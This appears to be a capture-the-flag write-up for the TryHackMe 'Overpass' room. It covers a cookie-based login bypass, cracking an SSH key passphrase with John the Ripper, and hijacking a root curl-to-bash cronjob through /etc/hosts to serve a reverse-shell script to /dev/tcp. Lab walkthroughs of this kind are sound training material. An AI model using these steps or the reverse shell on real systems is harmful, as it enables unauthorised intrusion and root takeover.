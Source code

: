# Overpass
[TryHackMe room link](https://tryhackme.com/room/overpass)

# Informations about the room
> What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!

# Open ports

22 OpenSSH 7.6p1

80 Golang net/http server

# Enumaration

Gobuster found a `/admin` directory with a login form

The login is not vulnerable to any SQL injections

In the page source we find a login.js

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

The login function checks for the response given from the webserver

If the response is "Incorrect Credentials" is prints "Incorrect Credentials"

Otherwise it will set a cookie named "SessionToken" and does a redirect to `/admin`

Since the cookie is not properly checked, it's only checking for the name of the cookie, it's possible to create a custom one

After logging in we are given a ssh key

We can crack it using John the Ripper:

```console
❯ ssh2john id_rsa > forjohn.txt
                                                                                                                                                             
❯ john --wordlist=/usr/share/wordlists/rockyou.txt forjohn.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2023-03-12 01:04) 50.00g/s 668400p/s 668400c/s 668400C/s pink25..jackets
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# Privilege escalation

We can write in the `/etc/hosts` file

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

And there is a cronjob downloading a `builscript.sh`

We can recreate the `/downloads/src/buildscript.sh` path on our machine and by modifying the `hosts` file we can let the cronjob download the file from our machine

```console
❯ mkdir downloads
❯ cd downloads
❯ mkdir src
❯ echo "sh -i >& /dev/tcp/10.8.37.155/6666 0>&1" > buildscript.sh
```

After a minute we get a root shell

